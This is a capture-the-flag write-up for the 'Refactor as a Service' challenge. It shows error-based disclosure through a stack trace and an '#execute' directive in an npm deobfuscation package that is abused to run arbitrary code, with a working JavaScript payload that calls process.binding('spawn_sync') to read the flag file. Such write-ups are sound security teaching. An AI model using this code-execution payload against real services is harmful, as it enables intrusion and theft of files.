 # Refactor as a Service 1

## tl;dr
- Error-based information disclosure of a used npm package
- Visit the npm package page to find `#execute` gadget to execute arbitrary code

## Flag

```
L3AK{th4t_w4s_1nd33d_s0m3_fl4wl3ss_e3x3cu710n}
```

## Detailed Solution

No source code for this challenge! All we are given is a nc command to connect to a server. The challenge description and name suggests that the service will some how transform our input. Let's connect to the server and see what it does.

### Initial testing

```
steak@L3AKCTF:~$ nc 193.148.168.30 6670

/$$$$$$$                       /$$$$$$
| $$__  $$                     /$$__  $$
| $$  \ $$  /$$$$$$   /$$$$$$ | $$  \__/
| $$$$$$$/ |____  $$ |____  $$|  $$$$$$
| $$__  $$  /$$$$$$$  /$$$$$$$ \____  $$
| $$  \ $$ /$$__  $$ /$$__  $$ /$$  \ $$
| $$  | $$|  $$$$$$$|  $$$$$$$|  $$$$$$/
|__/  |__/ \_______/ \_______/ \______/

Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
```

We can input some simple code to test out the functionality. Let's trying encoding `console.log(1+1)` in base64 and sending it to the server.

The server replies with the following:

```
Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
Y29uc29sZS5sb2coMSsxKQ==
Refactored Code:
console.log(2);

Goodbye!
```

It seems that the expression inside the `console.log` statement has been evaluated. However, it is still unclear whether this is the result of some kind of static evaluation or dynamic execution. However, we do note that the `console.log` was not evaluated since the server did not print `2` to the console.

### Error-based information disclosure


Further testing reveals that there is no naive way to execute arbitrary code. One thing that would help immensely is to be able to see the source code. Let's try inputting some random that when base64 decoded, should decode to gibberish:

```
steak@L3AKCTF:~$ nc 193.148.168.30 6670

/$$$$$$$                       /$$$$$$
| $$__  $$                     /$$__  $$
| $$  \ $$  /$$$$$$   /$$$$$$ | $$  \__/
| $$$$$$$/ |____  $$ |____  $$|  $$$$$$
| $$__  $$  /$$$$$$$  /$$$$$$$ \____  $$
| $$  \ $$ /$$__  $$ /$$__  $$ /$$  \ $$
| $$  | $$|  $$$$$$$|  $$$$$$$|  $$$$$$/
|__/  |__/ \_______/ \_______/ \______/

Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
zz
Error during refactoring Error: [1:1]: Unexpected "�"
    at new JsError (/home/ctfuser/app/node_modules/shift-parser/dist/tokenizer.js:166:104)
    at GenericParser.createError (/home/ctfuser/app/node_modules/shift-parser/dist/tokenizer.js:297:14)
    at GenericParser.createILLEGAL (/home/ctfuser/app/node_modules/shift-parser/dist/tokenizer.js:256:53)
    at GenericParser.advance (/home/ctfuser/app/node_modules/shift-parser/dist/tokenizer.js:1542:20)
    at GenericParser.parseScript (/home/ctfuser/app/node_modules/shift-parser/dist/parser.js:276:29)
    at parse (/home/ctfuser/app/node_modules/shift-parser/dist/index.js:172:43)
    at deobfuscate (/home/ctfuser/app/node_modules/not-a-real-refactoring-tool/dist/index.js:44:44)
    at Refactorer.refactorCode (file:///home/ctfuser/app/index.js:53:16)
    at Refactorer.handleInput (file:///home/ctfuser/app/index.js:38:41)
    at Interface.emit (node:events:519:28) {
  index: 0,
  line: 1,
  column: 1,
  parseErrorLine: 1,
  parseErrorColumn: 1,
  description: 'Unexpected "�"'
}
Goodbye!
```

This triggers an error, with the stack trace disclosing a lot of useful information. We can deduce a few things from this:

1. The server uses a `Refactorer` class to parse and refactor the code.
2. Internally, the `refactorCode` function calls the `deobfuscate` function from the `not-a-real-refactoring-tool` package.
3. The `deobfuscate` function makes use of the `shift-parser` package to parse the code.

Out of these, the node module `not-a-real-refactoring-tool` stands out the most. Searching this on npm, we find that it is indeed a real package: [not-a-real-factoring-tool - npm](https://www.npmjs.com/package/not-a-real-refactoring-tool)

### Investigating the `not-a-real-refactoring-tool` package

Scanning through the package's README, we find a section titled "Function Evaluation" under "Advanced Usage": 

``````
## Advanced Usage

### Function Evaluation

Often obfuscated scripts don't just use an array of strings, instead they have string decoder functions that execute more complex logic, such as the example below.

```javascript
function _0x29e92(_0x337a9) {
    const _0x38a2db = ['\x48\x65\x6c\x6c\x6f', '\x20', '\x57\x6f\x72\x6c\x64'];
    const _0x9ca21 = _0x337a9 - 0x1;
    const _0xa8291 = _0x38a2db[_0x9ca21];
    return _0xa8291;
}

const _0x78e2 = _0x29e92(1) + _0x29e92(2) + _0x29e92(3);
console.log(_0x78e2);
```

To tell the refactorer to execute this function, you can use the "#execute" directive like so:

```javascript
function _0x29e92(_0x337a9) {
    '#execute';
    const _0x38a2db = ['\x48\x65\x6c\x6c\x6f', '\x20', '\x57\x6f\x72\x6c\x64'];
    const _0x9ca21 = _0x337a9 - 0x1;
    const _0xa8291 = _0x38a2db[_0x9ca21];
    return _0xa8291;
}

const _0x78e2 = _0x29e92(1) + _0x29e92(2) + _0x29e92(3);
console.log(_0x78e2);
```

The refactorer will then evaluate this function and attempt to replace any calls to it with the correct values:

```javascript
const a = 'Hello World';
console.log(a);
```

A few important points about function evaluation:

-   BE CAREFUL when using function evaluation, this executes whatever functions you specify on your local machine so make sure those functions are not doing anything malicious.
-   This feature is still somewhat experimental, it's probably easier to use via the CLI as it's easier to find errors than the online version.
-   If the function is not a function declaration (i.e. a function expression or an arrow function expression) then the refactorer will not be able to detect the name of it automatically. To provide it use "#execute[name=FUNC_NAME]" directive.
-   You may need to modify the function to ensure it relies on no external variables (i.e. move a string array declaration inside the function) and handle any extra logic like string array rotation first.
-   You must first remove any anti tampering mechanisms before using function evaluation, otherwise it may cause an infinite loop.
``````

Looks like we can make use of the `'#execute'` directive to execute arbitrary code through a function! We can leverage this to list directories, read files, or spawn a shell.

### The exploit

Below is a function to cat out the flag file:

```js
function a() {
    '#execute'
    let result = process.binding("spawn_sync").spawn({ file: "cat", args: ["cat", "./flag"], stdio: [{ type: "pipe", readable: true, writable: false }, { type: "pipe", readable: false, writable: true }, { type: "pipe", readable: false, writable: true },], }); let output = result.output[1].toString(); console.log(output)
}
a();
```

Encoding this in base64 and sending it to the server gives us the flag:

```
steak@L3AKCTF:~$ nc 193.148.168.30 6670

/$$$$$$$                       /$$$$$$
| $$__  $$                     /$$__  $$
| $$  \ $$  /$$$$$$   /$$$$$$ | $$  \__/
| $$$$$$$/ |____  $$ |____  $$|  $$$$$$
| $$__  $$  /$$$$$$$  /$$$$$$$ \____  $$
| $$  \ $$ /$$__  $$ /$$__  $$ /$$  \ $$
| $$  | $$|  $$$$$$$|  $$$$$$$|  $$$$$$/
|__/  |__/ \_______/ \_______/ \______/

Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
ZnVuY3Rpb24gYSgpIHsNCiAgICAnI2V4ZWN1dGUnDQogICAgbGV0IHJlc3VsdCA9IHByb2Nlc3MuYmluZGluZygic3Bhd25fc3luYyIpLnNwYXduKHsgZmlsZTogImNhdCIsIGFyZ3M6IFsiY2F0IiwgIi4vZmxhZyJdLCBzdGRpbzogW3sgdHlwZTogInBpcGUiLCByZWFkYWJsZTogdHJ1ZSwgd3JpdGFibGU6IGZhbHNlIH0sIHsgdHlwZTogInBpcGUiLCByZWFkYWJsZTogZmFsc2UsIHdyaXRhYmxlOiB0cnVlIH0sIHsgdHlwZTogInBpcGUiLCByZWFkYWJsZTogZmFsc2UsIHdyaXRhYmxlOiB0cnVlIH0sXSwgfSk7IGxldCBvdXRwdXQgPSByZXN1bHQub3V0cHV0WzFdLnRvU3RyaW5nKCk7IGNvbnNvbGUubG9nKG91dHB1dCkNCn0NCmEoKTs=
L3AK{th4t_w4s_1nd33d_s0m3_fl4wl3ss_e3x3cu710n}

Refactored Code:
function a() {
  "#execute";
  let result = process.binding("spawn_sync").spawn({file: "cat", args: ["cat", "./flag"], stdio: [{type: "pipe", readable: true, writable: false}, {type: "pipe", readable: false, writable: true}, {type: "pipe", readable: false, writable: true}]});
  let output = result.output[1].toString();
  console.log(output);
}
a();

Goodbye!
```
